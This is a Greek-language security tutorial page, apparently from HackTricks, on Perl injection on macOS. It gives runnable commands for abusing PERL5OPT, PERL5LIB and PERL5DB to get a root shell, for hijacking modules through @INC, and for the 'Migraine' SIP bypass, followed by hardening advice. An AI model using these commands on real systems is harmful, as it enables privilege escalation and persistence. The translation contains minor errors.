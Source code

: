 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

Χρησιμοποιώντας τη μεταβλητή περιβάλλοντος **`PERL5OPT`** είναι δυνατόν να κάνετε το **Perl** να εκτελεί αυθαίρετες εντολές όταν ξεκινά ο διερμηνέας (ακόμα και **πριν** από την πρώτη γραμμή του στοχευμένου σεναρίου αναλυθεί).
Για παράδειγμα, δημιουργήστε αυτό το σενάριο:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Τώρα **εξάγετε τη μεταβλητή env** και εκτελέστε το **perl** σενάριο:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Μια άλλη επιλογή είναι να δημιουργήσετε ένα module Perl (π.χ. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
Και στη συνέχεια χρησιμοποιήστε τις μεταβλητές env ώστε το module να εντοπίζεται και να φορτώνεται αυτόματα:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Άλλες ενδιαφέρουσες μεταβλητές περιβάλλοντος

* **`PERL5DB`** – όταν ο διερμηνέας ξεκινά με την επιλογή **`-d`** (debugger), το περιεχόμενο του `PERL5DB` εκτελείται ως κώδικας Perl *μέσα* στο πλαίσιο του debugger. 
Αν μπορείτε να επηρεάσετε τόσο το περιβάλλον **όσο** και τις επιλογές γραμμής εντολών μιας προνομιακής διαδικασίας Perl, μπορείτε να κάνετε κάτι σαν:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # θα ανοίξει ένα shell πριν εκτελέσει το script
```

* **`PERL5SHELL`** – στα Windows αυτή η μεταβλητή ελέγχει ποιο εκτελέσιμο shell θα χρησιμοποιήσει το Perl όταν χρειάζεται να δημιουργήσει ένα shell. Αναφέρεται εδώ μόνο για πληρότητα, καθώς δεν είναι σχετική στο macOS.

Αν και το `PERL5DB` απαιτεί την επιλογή `-d`, είναι συνηθισμένο να βρίσκονται σενάρια συντήρησης ή εγκατάστασης που εκτελούνται ως *root* με αυτή την επιλογή ενεργοποιημένη για λεπτομερή αποσφαλμάτωση, καθιστώντας τη μεταβλητή έγκυρο μέσο κλιμάκωσης.

## Μέσω εξαρτήσεων (@INC abuse)

Είναι δυνατόν να καταγράψετε τη διαδρομή συμπερίληψης που θα αναζητήσει το Perl (**`@INC`**) εκτελώντας:
```bash
perl -e 'print join("\n", @INC)'
```
Τυπική έξοδος σε macOS 13/14 φαίνεται όπως:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Ορισμένοι από τους επιστρεφόμενους φακέλους δεν υπάρχουν καν, ωστόσο **`/Library/Perl/5.30`** υπάρχει, *δεν* προστατεύεται από το SIP και είναι *πριν* από τους φακέλους που προστατεύονται από το SIP. Επομένως, αν μπορείτε να γράψετε ως *root*, μπορείτε να ρίξετε ένα κακόβουλο module (π.χ. `File/Basename.pm`) που θα φορτωθεί *προτιμησιακά* από οποιοδήποτε προνομιακό script που εισάγει αυτό το module.

> [!WARNING]
> Χρειάζεστε ακόμα **root** για να γράψετε μέσα στο `/Library/Perl` και το macOS θα εμφανίσει ένα prompt **TCC** ζητώντας *Πλήρη Πρόσβαση Δίσκου* για τη διαδικασία που εκτελεί τη λειτουργία εγγραφής.

Για παράδειγμα, αν ένα script εισάγει **`use File::Basename;`**, θα ήταν δυνατό να δημιουργηθεί το `/Library/Perl/5.30/File/Basename.pm` που περιέχει κώδικα ελεγχόμενο από τον επιτιθέμενο.

## SIP bypass μέσω Migration Assistant (CVE-2023-32369 “Migraine”)

Τον Μάιο του 2023, η Microsoft αποκάλυψε το **CVE-2023-32369**, γνωστό ως **Migraine**, μια τεχνική post-exploitation που επιτρέπει σε έναν επιτιθέμενο *root* να παρακάμψει εντελώς την **Προστασία Ακεραιότητας Συστήματος (SIP)**. 
Το ευάλωτο συστατικό είναι το **`systemmigrationd`**, μια διεργασία που έχει δικαίωμα με **`com.apple.rootless.install.heritable`**. Οποιαδήποτε παιδική διαδικασία που δημιουργείται από αυτή τη διεργασία κληρονομεί το δικαίωμα και επομένως εκτελείται **εκτός** των περιορισμών του SIP.

Μεταξύ των παιδιών που εντοπίστηκαν από τους ερευνητές είναι ο ερμηνευτής υπογεγραμμένος από την Apple:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Επειδή το Perl σέβεται το `PERL5OPT` (και το Bash σέβεται το `BASH_ENV`), η δηλητηρίαση του *περιβάλλοντος* του δαίμονα είναι αρκετή για να αποκτήσετε αυθαίρετη εκτέλεση σε ένα περιβάλλον χωρίς SIP:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Όταν εκτελείται το `migrateLocalKDC`, το `/usr/bin/perl` ξεκινά με το κακόβουλο `PERL5OPT` και εκτελεί το `/private/tmp/migraine.sh` *πριν επανενεργοποιηθεί το SIP*. Από αυτό το σενάριο μπορείτε, για παράδειγμα, να αντιγράψετε ένα payload μέσα στο **`/System/Library/LaunchDaemons`** ή να αναθέσετε το εκτεταμένο χαρακτηριστικό `com.apple.rootless` για να κάνετε ένα αρχείο **μη διαγραφόμενο**.

Η Apple διόρθωσε το πρόβλημα στο macOS **Ventura 13.4**, **Monterey 12.6.6** και **Big Sur 11.7.7**, αλλά παλαιότερα ή μη ενημερωμένα συστήματα παραμένουν εκμεταλλεύσιμα.

## Συστάσεις σκληροποίησης

1. **Καθαρίστε επικίνδυνες μεταβλητές** – οι προνομιούχοι launchdaemons ή cron jobs θα πρέπει να ξεκινούν με ένα καθαρό περιβάλλον (`launchctl unsetenv PERL5OPT`, `env -i`, κ.λπ.).
2. **Αποφύγετε την εκτέλεση διερμηνέων ως root** εκτός αν είναι απολύτως απαραίτητο. Χρησιμοποιήστε συμπιεσμένα δυαδικά αρχεία ή μειώστε τα προνόμια νωρίς.
3. **Προμηθευτείτε σενάρια με `-T` (modo taint)** ώστε το Perl να αγνοεί το `PERL5OPT` και άλλες μη ασφαλείς επιλογές όταν είναι ενεργοποιημένος ο έλεγχος taint.
4. **Διατηρήστε το macOS ενημερωμένο** – το “Migraine” είναι πλήρως ενημερωμένο στις τρέχουσες εκδόσεις.

## Αναφορές

- Microsoft Security Blog – “Νέα ευπάθεια macOS, Migraine, θα μπορούσε να παρακάμψει την Προστασία Ακεραιότητας Συστήματος” (CVE-2023-32369), 30 Μαΐου 2023.
- Hackyboiz – “Έρευνα παράκαμψης SIP macOS (PERL5OPT & BASH_ENV)”, Μάιος 2025.

{{#include ../../../banners/hacktricks-training.md}}
